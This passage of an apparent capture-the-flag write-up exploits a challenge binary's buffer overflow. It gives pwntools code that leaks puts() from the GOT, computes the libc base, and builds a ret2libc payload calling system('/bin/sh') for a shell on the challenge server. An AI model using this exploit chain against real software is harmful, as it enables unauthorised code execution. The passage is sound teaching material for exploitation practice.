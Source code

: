 After conducting a search, we have located the `pop rdi, ret` gadget at address `0x40142b`. Our next step is to combine this address with the addresses of the `.got` and `.plt` sections of the `puts()` function. By doing so, we can leak the address of `puts()` in the libc library, which will enable us to calculate the base address of libc.

We can use the following code to accomplish this task:
```python
from pwn import *

elf = ELF('./pb')
libc = elf.libc

if args.REMOTE:
    p = remote('142.93.38.14', 31211)
else:
    p = process(elf.path)

def get_overflow():
    print(p.recvuntil('>>').decode('utf-8'))
    p.sendline("2")
    print(p.recvuntil(': ').decode('utf-8'))

def leak_libc():
    payload= b"A" * 56 # paddding
    payload+= p64(0x40142b) # pop rdi
    payload+= p64(0x403fa0) # got_put
    payload+= p64(0x401030) # plt_put
    payload+= p64(0x401016) #ret for stack aligment
    payload+= p64(0x004012c2) #adress in main that does not result in SIGEV

    p.sendline(payload)
    p.recvuntil(b'thank you!\n\n')
    leak = u64(p.recvline()[:-1].ljust(8,b'\x00'))

    return leak
    

with log.progress("Step 1: Leak libc address, print the address of puts"):
    get_overflow()
    leak = leak_libc()
    log.info("Leaked puts:" + str(hex(leak)))
    libc.address = leak - libc.symbols['puts']
```

Having successfully obtained the base address of `libc`, our next step is to obtain a `ret-2-libc`. We can use the following code to accomplish this task:
```python
with log.progress("Step 2: use onegadget to get shell"):
    get_overflow()

    system = libc.sym.system 
    bin_sh = libc.search(b"/bin/sh").__next__() 

    payload=b"A"*56
    payload+=p64(0x401016) # ret
    payload+=p64(0x40142b) # pop rdi
    payload+= p64(bin_sh)
    payload+= p64(system)
   
    p.sendline(payload)	
    log.info("Shell..")
    p.interactive()
```
